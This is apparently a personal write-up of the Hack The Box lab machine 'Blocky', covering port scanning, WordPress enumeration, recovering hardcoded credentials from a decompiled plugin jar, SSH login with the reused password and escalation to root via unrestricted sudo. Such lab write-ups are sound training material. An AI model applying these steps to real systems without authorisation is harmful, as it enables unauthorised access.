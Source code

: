 
## Machine Info

- Name: Blocky
- Description: Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector: Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators.
- Difficulty: Easy 

## Initial Access

Nmap:
```bash
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I quickly attempt to login to ftp with anonymous access:
```bash
HTB ftp blocky.htb
Connected to blocky.htb.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (blocky.htb:kali): anonymous
331 Password required for anonymous
Password: 
530 Login incorrect.
ftp: Login failed
```

Going to the ip on the webpage redirects to blocky.htb, so I add it to my /etc/hosts file.

A quick dirsearch confirms this is wordpress:
```bash
HTB  dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://blocky.htb 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/.dirsearch/reports/blocky.htb/_24-01-19_08-50-02.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-19_08-50-02.log

Target: http://blocky.htb/

[08:50:02] Starting: 
[08:50:03] 301 -    0B  - /index.php  ->  http://blocky.htb/
[08:50:05] 403 -  291B  - /icons/
[08:50:07] 301 -  307B  - /wiki  ->  http://blocky.htb/wiki/
[08:50:07] 200 -  380B  - /wiki/
[08:50:07] 301 -  313B  - /wp-content  ->  http://blocky.htb/wp-content/
[08:50:07] 200 -    0B  - /wp-content/
[08:50:09] 200 -    2KB - /wp-login.php
[08:50:09] 301 -  310B  - /plugins  ->  http://blocky.htb/plugins/
[08:50:09] 200 -  745B  - /plugins/
[08:50:10] 200 -   19KB - /license.txt
[08:50:11] 301 -  314B  - /wp-includes  ->  http://blocky.htb/wp-includes/
[08:50:11] 200 -   40KB - /wp-includes/
[08:50:14] 301 -  313B  - /javascript  ->  http://blocky.htb/javascript/
[08:50:14] 403 -  296B  - /javascript/
[08:50:19] 200 -    7KB - /readme.html
```

Then I will wpscan while these are running:
```bash
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

Nothing really stood out besides the username notch.

Visiting the wiki endpoint I se its under construction:
![[assets/images/Pasted image 20240119085156.png]]

I'll start a dirsearch in there, I'll also visit the plugins directory:

![[assets/images/Pasted image 20240119085536.png]]

I see some files that seem interesting let me download them and analyze them.

I start by unzipping the file then decompiling the class

![[assets/images/Pasted image 20240119085739.png]]

I see some credentials, let me see if they work on wordpress. 

![[assets/images/Pasted image 20240119085806.png]]

Nope, so now I will try to ssh in:

```bash
myfirstplugin ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$
```

Boom IA
## Privilege Escalation

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 

Sorry, try again.
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch#
```

Very simple privilege escalation

## Beyond Root

One real main issue, which is leaked credentials in jar file, if that is not needed then we should delete it from the webpage. I'll go ahead and delete the jar file. 